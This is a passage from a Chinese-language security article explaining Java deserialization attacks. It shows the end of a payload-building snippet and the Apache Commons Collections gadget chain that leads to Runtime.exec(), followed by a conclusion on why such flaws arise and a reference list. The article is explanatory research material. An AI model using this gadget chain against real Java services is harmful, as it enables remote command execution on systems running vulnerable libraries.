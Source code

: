 ```java

        Object obj = getAnnotationInvocationHandler(command);
        ObjectOutputStream out = new ObjectOutputStream(System.out);
        out.writeObject(obj);
    }
}
```

最终用一段调用链可以清晰的描述整个命令执行的触发过程：

```java
/*
    Gadget chain:
        ObjectInputStream.readObject()
            AnnotationInvocationHandler.readObject()
                AbstractInputCheckedMapDecorator$MapEntry.setValue()
                    TransformedMap.checkSetValue()
                        ConstantTransformer.transform()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Class.getMethod()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Runtime.getRuntime()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Runtime.exec()

    Requires:
        commons-collections <= 3.2.1
*/
```

### 五、总结

由于水平有限，暂时只能笔止于此。要清楚反序列化问题不单单存在于某种语言里，而是目前的大多数实现了序列化接口的语言都没有对反序列化的对象做安全检查，虽然官方都有文档说不要对不可信的输入数据进行反序列化，但是往往一些框架就喜欢使用序列化来方便不同应用或者平台之间对象的传递，这就促使了反序列化漏洞的形成。

基于 Apache Commons Collections 通用库构造远程命令执行的 POP Gadget 只能说是 Java 反序列化漏洞利用中的一枚辅助炮弹而已，如果不从根本上加强反序列化的安全策略，以后还会涌现出更多通用库或者框架的 POP Gadget 能够进行有效的利用。

### 参考

* [https://www.youtube.com/watch?v=KSA7vUkXGSg](https://www.youtube.com/watch?v=KSA7vUkXGSg)
* [http://www.slideshare.net/frohoff1/appseccali-2015-marshalling-pickles](http://www.slideshare.net/frohoff1/appseccali-2015-marshalling-pickles)
* [https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/#background](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/#background)
* [http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/](http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/)
* [https://docs.oracle.com/javase/7/docs/platform/serialization/spec/protocol.html#8130](https://docs.oracle.com/javase/7/docs/platform/serialization/spec/protocol.html#8130)
* [http://docs.oracle.com/javase/7/docs/api/java/io/Serializable.html](http://docs.oracle.com/javase/7/docs/api/java/io/Serializable.html)
* [http://www.javaworld.com/article/2072752/the-java-serialization-algorithm-revealed.html](http://www.javaworld.com/article/2072752/the-java-serialization-algorithm-revealed.html)
* [https://www.owasp.org/images/9/9e/Utilizing-Code-Reuse-Or-Return-Oriented-Programming-In-PHP-Application-Exploits.pdf](https://www.owasp.org/images/9/9e/Utilizing-Code-Reuse-Or-Return-Oriented-Programming-In-PHP-Application-Exploits.pdf)
 
